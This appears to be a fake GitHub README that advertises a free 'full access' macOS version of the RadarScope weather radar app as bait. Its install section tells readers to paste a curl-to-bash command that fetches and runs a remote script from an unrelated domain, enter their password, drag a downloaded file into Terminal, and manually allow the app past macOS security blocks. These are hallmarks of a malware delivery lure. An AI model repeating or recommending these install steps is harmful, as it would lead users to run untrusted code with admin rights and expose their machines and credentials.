 <p align="center">
  <img src="https://i.ibb.co/LdDSRrdy/1638281054-radarscope.png" width="350" alt="RadarScope macOS Banner" />
</p>

<h1 align="center">RadarScope for macOS</h1>

<p align="center">
  🌩️ Professional radar viewer for severe weather tracking. View high-resolution Level 3 NEXRAD data with real-time overlays on your Mac.  
  <br><br>
  ✅ Apple Silicon Optimized  
  ✅ Compatible with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/275" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20RADARSCOPE%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download RadarScope for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/FLrTzG6R/1638281071-3.jpg" alt="RadarScope Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is RadarScope for macOS?

**RadarScope** is a powerful radar viewing application designed for meteorologists, storm chasers, and weather enthusiasts. It provides access to Level 3 NEXRAD radar data directly on your Mac, offering tools for velocity analysis, reflectivity, storm tracking, and real-time alerts.

Unlike basic weather apps, RadarScope gives you raw, high-resolution data that helps interpret severe weather patterns with precision. Whether tracking tornadoes, thunderstorms, or hurricanes, RadarScope provides actionable insight with minimal delay.

---

## ✅ Why Choose RadarScope?

- 🌪️ **Real-Time NEXRAD Level 3 Radar**  
- 🌈 **Reflectivity, Velocity, Dual-Pol Products**  
- 🧠 **Advanced Weather Analysis Tools**  
- 🛰️ **Overlay Warnings and Watches**  
- 🌍 **Pan and Zoom Interactive Radar Maps**  
- ⏱️ **Rapid Refresh and Animation Loop**  
- 🍎 **Fully Optimized for Apple Silicon Macs**  
- 📦 **Download Data for Offline Use**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/mrqCwh9j/1638281070-1.jpg" alt="Reflectivity View Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/23xrFZnP/1638281071-2.jpg" alt="Storm Tracking Overlay Screenshot" />
</p>

---

## 🚀 Key Features

- Access real-time NEXRAD Level 3 data  
- View base and storm-relative velocity  
- Dual-polarization radar products  
- Animation timeline and control  
- NOAA warnings & watches overlay  
- Custom radar site selection  
- Full Apple Silicon support  
- Built-in archive and export features

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow RadarScope manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Data-NEXRAD+Level+3+Radar-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Optimized-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ RadarScope – Precision Weather Radar

Thanks for using **RadarScope for macOS**.  
Track storms like a pro — with real radar.

---

## 🧭 Usage Context

RadarScope is built for offline use by professionals and enthusiasts.  
All radar data is direct from official NEXRAD sources and processed locally.  
No background tracking. No fluff. Just real-time weather intelligence.

---

## 🔍 Tags

```text
radarscope mac download, nexrad level 3 radar viewer macos, professional weather radar app mac, real-time storm tracking macbook, velocity and reflectivity radar tool mac, apple silicon weather radar utility, high-res radar for mac storm chasers, tornado warning radar display mac, weather radar with dual-pol mac, radarscope app for mac full version, macos radar with alert overlays, radarscope m1 native version download, real weather data visualizer mac, meteorologist radar app macbook, advanced radar scanner for mac os x
